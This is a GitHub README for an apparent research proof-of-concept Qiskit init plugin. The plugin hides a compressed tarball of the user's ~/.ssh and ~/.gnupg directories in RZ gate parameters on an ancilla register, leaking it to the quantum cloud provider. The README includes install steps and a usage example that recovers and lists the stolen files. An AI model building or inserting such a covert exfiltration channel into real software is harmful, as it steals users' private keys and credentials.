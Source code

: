 # qiskit-ancilla-qubit-attack

A transpilation init plugin that can be used with Qiskit to leak private information from the computer running the
transpilation step to the cloud receiving the jobs for the quantum computers.

Current implementation creates a bzip2 compressed tarball with ~/.ssh and ~/.gnupg victim's directories.
This tarball is then encoded into large integers, which are saved as parameters of RZ gates. These gates are added to
an auxiliary quantum register in the first step of the transpilation (init) surrounded by reset instructions. This
guarantees that later steps in the transpilation (e.g. routing, optimization, etc.) do not modify this quantum register
in any way, allowing the extraction of the leaked data.

Leaked data can be recovered with `recover_data()` or `extract_data()` implemented in the decoder module.
See [the example](#Example) below.

## Instalation

```shell
git clone git@github.com:cryptohslu/qiskit-leaky-init.git
cd qiskit-leaky-init
pip install .
```

## Example

```python
import hashlib
import io
import tarfile
from pathlib import Path

from qiskit.circuit import QuantumCircuit
from qiskit.transpiler.preset_passmanagers import generate_preset_pass_manager
from qiskit.transpiler.preset_passmanagers.plugin import list_stage_plugins
from qiskit_ibm_runtime import QiskitRuntimeService
from qiskit_ibm_runtime.fake_provider import FakeBrisbane

from qiskit_leaky_init import extract_data, recover_data

# Check that init plugin was installed correctly
assert "leaky_init" in list_stage_plugins("init")

backend = FakeBrisbane()
pm = generate_preset_pass_manager(
    optimization_level=3, backend=backend, init_method="leaky_init"
)

# 3-qubit GHZ circuit
qc = QuantumCircuit(3)
qc.h(0)
qc.cx(0, range(1, 3))

# Transpiled circuit with leaked data
isa_qc = pm.run(qc)
leaked_data = recover_data(isa_qc)

# List leaked files
with io.BytesIO(leaked_data) as file:
    with tarfile.open(fileobj=file, mode="r:bz2") as tarball:
        tarball.list()

# Extract all files to temporary directory
# extract_data(data)
```